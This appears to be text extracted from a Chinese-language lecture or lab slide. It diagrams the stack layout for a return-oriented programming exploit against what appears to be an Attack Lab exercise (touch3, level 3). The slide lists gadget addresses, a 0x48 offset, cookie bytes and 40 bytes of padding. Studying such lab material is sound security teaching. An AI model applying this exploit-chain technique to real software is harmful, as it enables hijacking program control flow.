

地址高的位置
35 39 62 39
39 37 66 61 00
Return-oriented
level 3
存放cookie字符串
touch3的地址
0x4018fa
movq %rax, %rdi的地址
0x4019c5
movl %ecx, %esi的地址
0x4019d6
lea (%rdi, %rsi, 1), %rax的地址
0x401a27
movl %eax, %edx的地址
0x401a34
popq %rax的地址
0x4019dd
存放偏移值(0x48)
movq %rax, %rdi的地址
0x4019ab
movq %rax, %rdi的地址
0x4019c5
movq %rsp, %rax的地址
0x401a06
40个任意字节
地址低的位置